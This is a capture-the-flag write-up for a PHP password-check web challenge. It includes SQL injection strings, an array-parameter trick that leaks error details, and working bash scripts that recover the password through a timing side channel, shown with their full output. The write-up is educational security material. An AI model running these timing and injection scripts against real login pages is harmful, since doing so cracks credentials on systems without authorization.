


# bad code
**Category:** Web

**Points:** 75

**Description:**

http://ctf.hackucf.org:4000/bad_code/bad_code.php

## Write-up
On following the link above you are shown a page with just a password box:



Entering anything in this box takes you to a page that tells you it's wrong, and how long the response took:



Looking at the HTML source for the password request page we get:
```html
<link rel="stylesheet" href="//maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css">

<div class="container">
  <form action="bad_code.php">
   <br/> password:
    <input type="text" name="passwd" class="input"/><br/>
  </form>
  </br>
</div>
```
I had a quick look through the stylesheet to see if there were any keywords like `flag`, `password`, etc., but I didn't find anything. The stylesheet came from an external website, so I didn't really expect anything to be in there. It is missing the `http:` part, but that doesn't seem to affect anything.

The only other thing I noticed at this point was a badly formed `<br />` tag near the end of the code.

The source code for the result screen was simply:
```html
WRONG.<br/><br/><br/><small><div class="footer">Response generated in: <time>0.010100841522217</time></div><small>
```
Again, the only thing I noticed here is that the final `<small>` tag is missing the slash to mark it as a closing tag.

Whatever I type in the password box is never displayed on this page, so this excludes basic XSS as an attack. The name of the challenge suggests there's something in the code itself, but we are not given the PHP script to work with.

[annalogger](https://github.com/annalogger) spotted that if you pass the `passwd` variable as an array you can get some information out of the PHP:
```
> curl "http://ctf.hack?passwd\[\]=hello"
<br />
<b>Warning</b>:  str_split() expects parameter 1 to be string, array given in <b>/var/www/html/bad_code/bad_code.php</b> on line <b>5</b><br />
WRONG.<br/><br/><br/><small><div class="footer">Response generated in: <time>0.010128974914551</time></div><small>
```
I'm not sure yet how we can use this information, but at least we have some infomation.

Next I tried an SQL Injection by sending `' OR '1=1; #'` (for mysql), and I tried standard SQL `' OR '1=1'; --`, but they gave nothing:
```
> curl "http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd=%27+OR+%271%3D1%27%3B+%23
WRONG.<br/><br/><br/><small><div class="footer">Response generated in: <time>0.010106801986694</time></div><small>
> curl "http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd=%27+OR+%271%3D1%27%3B+--
WRONG.<br/><br/><br/><small><div class="footer">Response generated in: <time>0.010131120681763</time></div><small>
```
No results or SQL errors, so we can assume it doesn't use SQL - the website only has a password box and no username, so the site using SQL was unlikely.

> Note: At this point I did spend a lot of time researching and trying various things, but they didn't do anything interesting, so I removed them from this write-up to stop it getting too long!

Next I tried to see what would happen if I sent long passwords to the website - could we break some PHP and get an insight into the code? I wrote a script:
```bash
#!/bin/bash

url="http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd="
echo "Returned strings" > returned_strings.txt
expected="WRONG.<br/><br/><br/><small><div class=\"footer\">Response generated in: </div><small>"

# Call the url with longer and longer strings - can we get an overflow in PHP?
passwd_val=
for i in {1..9000}
do
  passwd_val=${passwd_val}A
  nxt_url=$url$passwd_val
  echo "Testing with $i letters"
  rep=$(curl -s "$nxt_url" | sed -e "s/<time>.*<\/time>//")

  # Test the diff of the result
  diff_val=$(diff <(echo $expected) <(echo $rep))

  # Check the length of the diff
  if [ ${#diff_val} -ne 0 ]
  then
    echo "Testing $nxt_url" >> returned_strings.txt
    echo "Number of characters: $i" >> returned_strings.txt
    echo "diff was: $diff_val" >> returned_strings.txt
    echo "Reply was: $rep" >> returned_strings.txt
  fi 
done
```
Running this returned empty responses for some values (possibly timeouts), but which lengths returned blank responses changed on each run, so no consistent failure. Also, once the length of the password got to 8149, the server returned an error for all further tests:
```
Number of characters: 8149
diff was: 1c1
< WRONG.<br/><br/><br/><small><div class="footer">Response generated in: </div><small>
---
> <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN"> <html><head> <title>414 Request-URI Too Long</title> </head><body> <h1>Request-URI Too Long</h1> <p>The requested URL's length exceeds the capacity limit for this server.<br /> </p> <hr> <address>Apache/2.4.10 (Debian) Server at 172.17.0.26 Port 80</address> </body></html>
Reply was: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>414 Request-URI Too Long</title>
</head><body>
<h1>Request-URI Too Long</h1>
<p>The requested URL's length exceeds the capacity
limit for this server.<br />
</p>
<hr>
<address>Apache/2.4.10 (Debian) Server at 172.17.0.26 Port 80</address>
</body></html>
```
So we found nothing out through this.

Next I was curious to find out if the time that was printed out in the response page meant anything. If some password value enables us to get deeper into the code, it can take fractions of a second longer to get there, and this may be reflected in the output. I wrote a new script to test this:
```bash
#!/bin/bash

url="http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd="
echo "Timing results" > timing_results.txt
echo "==============" >> timing_results.txt

# Do 10 runs, recording the highest, lowest and overall average
# for each run
for r in {1..10}
do
  # Set up a new run
  echo "-------------------" >> timing_results.txt
  echo "Run $r" >> timing_results.txt
  echo "-------------------" >> timing_results.txt
  passwd=
  large_avg=0.0
  large_size=0
  small_avg=10.0
  small_size=0
  final_total=0

  # Run with passwords from 1 to 100 characters
  for i in {1..100}
  do
    passwd=${passwd}a
    next_url=$url$passwd
    echo "Testing with number of characters: $i"
    total=0

    # Use 20 runs to get a good average
    for n in {1..20}
    do
      # Get the time from the web response
      nxt_time=$(curl -s "$next_url" | sed -e "s/^.*<time>//" -e "s/<.*$//")
      echo "Time: $nxt_time" 
      total=$(echo "$total + $nxt_time" | bc -l) 
    done

    # Calculate the average of all runs for this number of characters
    echo "Total: $total"
    avg=$(echo "scale=15;$total / 20.0" | bc -l)
    echo "Average: $avg"

    # Record which was the largest and smallest result
    if (( $(echo "$avg > $large_avg" | bc -l) ))
    then
      large_avg=$avg
      large_size=$i
    fi
    if (( $(echo "$avg < $small_avg" | bc -l) ))
    then
      small_avg=$avg
      small_size=$i
    fi

    # Keep a running total for overall average
    final_total=$(echo "$final_total + $avg" | bc -l)
  done

  # Record the results
  echo "Longest time was $large_size characters: $large_avg" >> timing_results.txt
  echo "Shortest time was $small_size characters: $small_avg" >> timing_results.txt
  final_avg=$(echo "scale=15;$final_total/100" | bc -l)
  echo "Average time for all characters: $final_avg" >> timing_results.txt
done
``` 
This script performs 10 runs so we can see if there's any consistency. It creates passwords of 1 to 100 characters long, and sends those passwords to the server 20 times to take an average of the length of time taken. For each run, I output the one that took longest, the one that took the shortest and the average time.

On running this, the results showed that a different length of password took the longest time on each of the 10 runs. As there is no consistent answer, we can say the password length makes no difference to the code executed:
```
Timing results
==============
-------------------
Run 1
-------------------
Longest time was 5 characters: .010355496406555
Shortest time was 98 characters: .010105156898498
Average time for all characters: .010123975396155
-------------------
Run 2
-------------------
Longest time was 86 characters: .010375463962555
Shortest time was 2 characters: .010103070735931
Average time for all characters: .010122805118560
-------------------
Run 3
-------------------
Longest time was 95 characters: .010258483886718
Shortest time was 62 characters: .010103106498718
Average time for all characters: .010120621562003
-------------------
Run 4
-------------------
Longest time was 93 characters: .010487496852874
Shortest time was 92 characters: .010105454921722
Average time for all characters: .010136174559592
-------------------
Run 5
-------------------
Longest time was 38 characters: .010620379447937
Shortest time was 4 characters: .010103845596313
Average time for all characters: .010132197022437
-------------------
Run 6
-------------------
Longest time was 30 characters: .010530638694763
Shortest time was 31 characters: .010104358196258
Average time for all characters: .010130006909369
-------------------
Run 7
-------------------
Longest time was 99 characters: .010369277000427
Shortest time was 17 characters: .010105109214782
Average time for all characters: .010126906871795
-------------------
Run 8
-------------------
Longest time was 64 characters: .010369932651519
Shortest time was 18 characters: .010104942321777
Average time for all characters: .010133168220519
-------------------
Run 9
-------------------
Longest time was 4 characters: .010339975357055
Shortest time was 76 characters: .010105037689209
Average time for all characters: .010125115990638
-------------------
Run 10
-------------------
Longest time was 93 characters: .010330796241760
Shortest time was 14 characters: .010105884075164
Average time for all characters: .010123458385467
```

Another timing to look at may involve the `str_split()` we saw earlier. If it splits the password into individual letters to check each one is correct before moving onto the next, we could also use the outputted time to see if we could find each letter in the password. We can do this by checking the one that took longest (i.e. moved on to check the next letter, taking slightly longer). I created a script to do this for the first letter:
```bash
#!/bin/bash

url="http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd="
echo "Average timings" > average_timings.txt
echo "===============" >> average_timings.txt

# Start of pass can be used if we find actual letters
start_of_pass=

# Run the test 10 times to check for a consistent answer
for r in {1..10}
do
  # Set up a new run
  echo "-------------------" >> average_timings.txt
  echo "Run $r" >> average_timings.txt
  echo "-------------------" >> average_timings.txt
  large_avg=0.0
  large_ascii=0
  small_avg=10.0
  small_ascii=0
  final_total=0

  # Run through the ASCII printable range
  # We can use urlencoding to avoid illegal characters in the URL
  # Run from SPACE (32) to ~ (126) - 95 characters
  for i in {32..126}
  do
    # Encode to hex with a %
    hex_val=$(printf "%x" $i)
    hex_val=%$hex_val
    passwd=$start_of_pass$hex_val
    next_url=$url$passwd
    echo "URL: $next_url"
    total=0
    for n in {1..20}
    do
      nxt_time=$(curl -s "$next_url" | sed -e "s/^.*<time>//" -e "s/<.*$//")
      echo "Time: $nxt_time" 
      total=$(echo "$total + $nxt_time" | bc -l) 
    done
    echo "Total: $total"
    avg=$(echo "scale=15;$total / 20.0" | bc -l)
    echo "Average: $avg"

    # Record which was the largest and smallest result
    if (( $(echo "$avg > $large_avg" | bc -l) ))
    then
      large_avg=$avg
      large_ascii=$i
    fi
    if (( $(echo "$avg < $small_avg" | bc -l) ))
    then
      small_avg=$avg
      small_ascii=$i
    fi

    # Keep a running total for overall average
    final_total=$(echo "$final_total + $avg" | bc -l)
  done

  # Record the results
  large_char=$(awk -v char=$large_ascii 'BEGIN{printf "%c", char}')
  small_char=$(awk -v char=$small_ascii 'BEGIN{printf "%c", char}')
  echo "Longest time was for $large_ascii ($large_char): $large_avg" >> average_timings.txt
  echo "Shortest time was for $small_ascii ($small_char): $small_avg" >> average_timings.txt
  final_avg=$(echo "scale=15;$final_total/95" | bc -l)
  echo "Average time for all characters: $final_avg" >> average_timings.txt
done
```
Running this gave me `A` as the letter taking the longest time for all 10 runs:
```
Average timings
===============
-------------------
Run 1
-------------------
Longest time was for 65 (A): .030247199535369
Shortest time was for 84 (T): .010104703903198
Average time for all characters: .010340297096653
-------------------
Run 2
-------------------
Longest time was for 65 (A): .030241239070892
Shortest time was for 90 (Z): .010102224349975
Average time for all characters: .010342413626218
-------------------
Run 3
-------------------
Longest time was for 65 (A): .030261623859405
Shortest time was for 59 (;): .010105931758880
Average time for all characters: .010339270641928
-------------------
Run 4
-------------------
Longest time was for 65 (A): .030245649814605
Shortest time was for 91 ([): .010105359554290
Average time for all characters: .010346321557697
-------------------
Run 5
-------------------
Longest time was for 65 (A): .030274963378906
Shortest time was for 95 (_): .010104084014892
Average time for all characters: .010339599785051
-------------------
Run 6
-------------------
Longest time was for 65 (A): .030363798141479
Shortest time was for 46 (.): .010102033615112
Average time for all characters: .010342628830357
-------------------
Run 7
-------------------
Longest time was for 65 (A): .030278134346008
Shortest time was for 80 (P): .010104870796203
Average time for all characters: .010339251693925
-------------------
Run 8
-------------------
Longest time was for 65 (A): .030249297618866
Shortest time was for 82 (R): .010105025768280
Average time for all characters: .010334366873690
-------------------
Run 9
-------------------
Longest time was for 65 (A): .030273008346557
Shortest time was for 38 (&): .010104250907898
Average time for all characters: .010344740591550
-------------------
Run 10
-------------------
Longest time was for 65 (A): .030266976356506
Shortest time was for 89 (Y): .010108685493469
Average time for all characters: .010341890360179
```
This looked promising, so I updated the code to automatically add the letter that took the longest to the end of the `start_of_pass` variable. The code now tests if passing `start_of_pass` as `passwd` returns a different result to the "WRONG" page. If so, it assumes we found the password. 

As the results seemed consistent, I also removed the repeating of the tests, both the 20 calls and 10 runs. These were only there in case the difference in times was small - it would try and handle small errors by averaging them out. The differences are easily noticable, though. 

Finally, I removed some of the information output and final script was:
```bash
#!/bin/bash

url="http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd="
echo "Average timings" > average_timings.txt
echo "===============" >> average_timings.txt

# Start of pass can be used if we find actual letters
start_of_pass=

# What is returned from the page when we get the password wrong (with the time removed)
# We'll check if this changes
expected="WRONG.<br/><br/><br/><small><div class=\"footer\">Response generated in: </div><small>"
while true
do
  # Set up for the next letter
  large_time=0.0
  large_ascii=0
  
  # Run through the ASCII printable range
  # We can use urlencoding to avoid illegal characters in the URL
  # Run from SPACE (32) to ~ (126) - 95 characters
  for i in {32..126}
  do
    # Encode to hex with a %
    hex_val=$(printf "%x" $i)
    hex_val=%$hex_val
    passwd=$start_of_pass$hex_val
    next_url=$url$passwd
    echo "URL: $next_url"
    nxt_time=$(curl -s "$next_url" | sed -e "s/^.*<time>//" -e "s/<.*$//")
    
    # When we try the actual password here, it returns something other than the time,
    # so bail out if the answer isn't numeric!
    if [[ $nxt_time =~ ^[0-9.]+$ ]]
    then
      echo "Time: $nxt_time" 

      # Record which was the largest result
      if (( $(echo "$nxt_time > $large_time" | bc -l) ))
      then
        large_time=$nxt_time
        large_ascii=$i
      fi
    else
      large_time=1.0
      large_ascii=$i
      break
    fi
  done

  # Record the results
  large_char=$(awk -v char=$large_ascii 'BEGIN{printf "%c", char}')
  echo "Longest time was for $large_ascii ($large_char): $large_time" >> average_timings.txt
  start_of_pass=$start_of_pass$large_char

  # Do we have the password?
  echo "Current password: $start_of_pass" | tee -a average_timings.txt
  next_url=$url$start_of_pass
  res=$(curl -s "$next_url" | sed -e "s/<time>.*<\/time>//")
  diff_val=$(diff <(echo $expected) <(echo $res))
  if [ ${#diff_val} -ne 0 ]
  then
      echo "Final password: $start_of_pass" | tee -a average_timings.txt
      echo "Testing $next_url" | tee -a average_timings.txt
      echo "diff was: $diff_val" >> average_timings.txt
      echo "Result was: $res" | tee -a average_timings.txt
      break
  fi
done
```
The output in the `average_timings.txt` file gave me the password and the flag:
```
Average timings
===============
Longest time was for 65 (A): 0.030223846435547
Current password: A
Longest time was for 84 (T): 0.050436973571777
Current password: AT
Longest time was for 50 (2): 0.070604085922241
Current password: AT2
Longest time was for 66 (B): 0.090644121170044
Current password: AT2B
Longest time was for 49 (1): 0.11069798469543
Current password: AT2B1
Longest time was for 72 (H): 0.13087296485901
Current password: AT2B1H
Longest time was for 68 (D): 0.15104794502258
Current password: AT2B1HD
Longest time was for 73 (I): 1.0
Current password: AT2B1HDI
Final password: AT2B1HDI
Testing http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd=AT2B1HDI
diff was: 1c1
< WRONG.<br/><br/><br/><small><div class="footer">Response generated in: </div><small>
---
> flag{<flag_was_here>}
Result was: flag{<flag_was_here>}
```
